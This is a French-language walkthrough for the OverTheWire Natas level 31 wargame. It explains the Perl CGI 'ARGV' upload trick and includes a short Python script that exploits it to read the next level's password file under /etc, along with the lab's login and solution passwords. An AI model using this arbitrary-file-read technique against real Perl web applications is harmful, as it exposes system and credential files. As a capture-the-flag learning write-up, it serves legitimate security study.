

## Connexion (username=natas31 password=aQzrirxwd2Wiaoq8HnSjcc8IUWlxdd1z)
```
http://natas31.natas.labs.overthewire.org/
```

## Recherche du mot de passe
Je suis tombé sur ce pdf en ligne qui explique exactement comment la vulnérabilité est exploité:
https://blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf

Pour rentrer dans la condition ```if ($cgi->upload('file')) ``` il faut upload un fichier. La méthode upload accepte d'avoir plusieurs fichiers aussi. Or si j'envoie une string ARGV en premier et ensuite un fichier par la suite, le if retourne vrai étant donné la présence d'au moins 1 fichier.
```while (<$file>)``` lis les lignes dans le fichier, à moins d'avoir la chaîne de caractère ARGV, dans ce cas, ça réfère au paramètre passé dans l'URL. Donc il suffit d'avoir une requête avec ARGV en premier suivi d'un réel fichier csv, et j'ajouterai au endpoint communiqué le paramètre ?/etc/natas_webpass/natas31

On peut faire ca dans burpsuite ou en python


```python
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas31.natas.labs.overthewire.org/index.pl?/etc/natas_webpass/natas32"
auth = HTTPBasicAuth('natas31', 'aQzrirxwd2Wiaoq8HnSjcc8IUWlxdd1z')
files = [
    ('file', (None, 'ARGV')),
    ('file', ('random.csv', '1,2,\n3,4,', 'text/csv')) # contenu random
]
response = requests.post(url, auth=auth, files=files)
print(response.text)
```

## Prochain mot de passe
```
Rc3837d6qd3KoW0R2IgKssMXRX06btgY
```